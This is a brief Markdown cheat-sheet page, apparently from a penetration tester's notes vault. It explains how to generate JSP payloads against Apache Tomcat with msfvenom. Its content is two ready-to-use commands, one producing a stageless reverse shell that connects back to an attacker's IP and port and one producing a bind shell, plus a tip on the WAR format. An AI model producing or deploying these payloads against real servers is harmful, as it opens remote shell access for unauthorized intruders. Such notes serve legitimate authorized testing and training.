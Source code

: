 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# JSP

> [!INFO]
> You can specify `war` format in `msfvenom` to generate payloads (`payload.war`) against **Apache Tomcat**.

## Reverse Shells

### Generate a payload via `msfvenom`

Stageless reverse shell.

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jsp
```

## Bind Shells

### Generate a payload via `msfvenom`

Stageless bind shell.

```
$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o payload.jsp
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Cross Platform/Code Execution/Java]]